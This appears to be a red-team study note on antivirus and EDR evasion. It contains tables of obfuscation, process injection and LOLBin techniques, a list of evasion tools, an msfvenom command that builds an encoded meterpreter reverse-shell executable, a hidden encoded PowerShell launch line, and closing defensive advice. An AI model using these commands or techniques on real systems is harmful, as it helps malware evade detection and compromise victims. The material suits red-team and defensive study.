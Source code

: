 **Antivirus evasion** refers to the techniques used to **bypass detection by antivirus (AV), EDR, and other security solutions** when delivering or executing malicious payloads. These methods are common in **red teaming**, **malware development**, and **adversary emulation**.

> 🧠 The goal is not to disable AV, but to **avoid detection long enough to execute the payload**.

---

## 🎯 Why It Matters

- AV engines use **signature, heuristic, and behavioral detection**
- Default payloads (e.g., from `msfvenom`) are easily flagged
- Evasion is key in **post-exploitation**, **malware staging**, and **stealth persistence**

---

## 🧱 Detection Types & Evasion Goals

| Detection Type       | Description                          | Evasion Strategy                        |
|----------------------|--------------------------------------|------------------------------------------|
| **Signature-based**   | Matches byte patterns (hashes, strings) | Obfuscate code, change payload structure |
| **Heuristic-based**   | Suspicious patterns or behaviors     | Break known patterns, add junk logic     |
| **Behavioral (EDR)**  | Monitors API calls, memory ops, flow | Delay execution, use LOLBins, evade memory inspection |

---

## 🛠 Static Evasion Techniques

| Technique             | Description                                |
|-----------------------|--------------------------------------------|
| **Encoding/Obfuscation** | Use `msfvenom` encoders or custom encoders |
| **Packing**           | Compress/encrypt with UPX or custom packers|
| **String Encryption** | Encode suspicious strings (e.g., base64)   |
| **Custom Compilation**| Recompile payload with minor changes       |
| **Change Metadata**   | Modify filename, icon, PE headers          |
| **Split Logic**       | Break payload into multiple smaller stages |

### 🔧 Example with `msfvenom` + encoding:
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.2 LPORT=4444 -f exe -e x86/shikata_ga_nai -i 5 -o evade.exe
```

## 🔬 Behavioral Evasion Techniques

|Technique|Description|
|---|---|
|**Process Injection**|Inject shellcode into legit processes|
|**Memory Unhooking**|Restore/patch system functions to bypass EDR|
|**Parent Spoofing**|Spawn from `explorer.exe`, `svchost.exe`, etc|
|**Delay Execution**|Sleep or loop before payload runs|
|**Indirect Syscalls**|Avoid detection by using syscall stubs|
|**LOLBins**|Use `mshta`, `rundll32`, `regsvr32`, etc.|

---

## 🧩 Common Tools for Evasion

|Tool / Framework|Purpose|
|---|---|
|**Veil Framework**|Payload obfuscation for AV evasion|
|**Shellter**|Inject shellcode into clean PE files|
|**Nimcrypt**|Create payloads using Nim for AV evasion|
|**Donut**|Convert .NET DLLs/EXEs into shellcode|
|**CactusTorch**|Reflective DLL injection via macros|
|**FUDcry**|Crypter that obfuscates known payloads|

---

## 🧠 Best Practices

- Use **custom payloads**, not off-the-shelf
- Combine **multiple evasion layers** (e.g., obfuscation + LOLBin + injection)
- Test in **realistic EDR environments** (e.g., Defender, CrowdStrike)
- Monitor with **Sysmon** and **procmon** to understand detection triggers
- Use **encryption and staging** for payload delivery

---

## 📘 Example: Evasion via PowerShell LOLBin

```
powershell -nop -w hidden -enc <base64-encoded-payload>
```

- Avoids writing payload to disk
- Encoded and executed entirely in memory
- Triggered via Office macro or HTA

## 🧪 Testing Efficacy

|Service / Tool|Purpose|
|---|---|
|**VirusTotal**|Multi-engine AV scanning (non-private!)|
|**Any.Run**|Online sandbox with AV/EDR simulation|
|**CAPE Sandbox**|Analyze dropped files, processes, and registry keys|
|**Sysmon + ELK**|Detect suspicious execution flows|

> ⚠️ Never upload red team payloads to VirusTotal unless it’s scrubbed of unique signatures.

---

## 🔐 Defensive Recommendations

- Monitor LOLBins and encoded PowerShell
- Detect parent/child anomalies (e.g., `WINWORD → powershell`)
- Enable advanced logging (Sysmon, command-line auditing)
- Block unsigned macros and scripting tools (AppLocker/WDAC)
- Use EDR/XDR with behavioral detection, not just AV

---

## 🔗 Related Topics

- [[Payload Creation with msfvenom]]
- [[EDR & Threat Detection]]
- [[Post-Exploitation]]
- [[Persistence Techniques]]
- [[Metasploit Framework]]

---

## 🏷 Suggested Tags

#antivirus_evasion #red_team #post_exploitation #obfuscation #bypass #payloads #defense_evasion #mitre_attack

---

## ✅ To Do

-  Build and encode payloads using multiple encoders
-  Simulate evasion via PowerShell and measure detection
-  Test payloads in EDR/AV-equipped VMs
-  Document which evasions are blocked by each solution
